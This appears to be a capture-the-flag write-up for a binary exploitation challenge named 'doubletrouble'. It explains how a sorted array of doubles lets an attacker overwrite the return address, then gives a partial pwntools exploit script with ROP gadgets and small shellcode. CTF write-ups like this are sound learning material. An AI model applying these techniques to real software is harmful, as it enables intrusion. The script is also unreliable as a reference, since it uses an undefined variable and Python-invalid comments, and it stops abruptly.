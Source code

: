```
2:0.000000e+00
3:0.000000e+00
4:4.854027e-270
5:1.000000e+02
```

If we trigger the bug when `how long` equals to 64, the program will report that the stack is smashed. Since the ret address is 24 bytes away from our array, we need to extend our array by three (one double uses 8 bytes). During sorting, the stack address will be sorted to extremely top since it's always begin with `7f` or `ff`. Thus, we have to jump to a *ret* in the program. The lower part of a double number can be used as stack return address:
```
+-------------+  a double value   +----------+
|          e.g. 0x1234123443214321           |
+-------------------+-------------------+----+
|  higher 4 bytes   |     lower 4 bytes      |
+--------------------------------------------+
|  ret address      |     ret address2       |
+-------------------+----- ------------------+
// We can controll the first 8 bytes to be a relative large number to make the value stay at the last of our array
```

After poping *EAX* to stack address, we can execute shellcode. Since `system` and `/bin/sh` is already in the binary, we can simply call system address and use the `/bin/sh` as address. The problem is the array will switch the stack cookie, how can we make sure we can pass the security shellcode. First, we need to make our shellcode extremely small to stay at the top of the array. Thus, we appends `\xfe` and `\xfc` at the beginning. Our shellcode will do a jump to skip the `\xfe` and `\xfc` header to perform a proper execution.

And the remaining padding, we need to make sure it is as small as possible, but larger than shellcode. Thus, we use `0xf800000000000000` as our value. After sorting, we can trigger the ROP chain. Since canary is random, the exploit might fail several times.

Exploit:
```python
from pwn import *
from struct import *
import re
import base64

context.arch = 'i386'

// A function to convert our data to double format
def d64(double):
	return "%.20g" % unpack("<d", double)[0]


r = process("doubletrouble")
r.recvuntil("0x")
stack_addr = int(r.recv(8), 16)

r.sendlineafter("long: ", str(64))
pad = d64(p64(0xf800000000000000))
jmp = 0x080498A4ffffffff  # ret gadget
jmp2 = 0x0806000000000000 + stack  # addr of shellcode

shellcode1 = d64(asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe'))
shellcode2 = d64(asm("call dword ptr [0x804BFF0]").ljust(8, '\xfc'))

r.sendline(shellcode1)
r.sendline(shellcode2)
for i in range(0, 2):
    r.sendline(pad)

```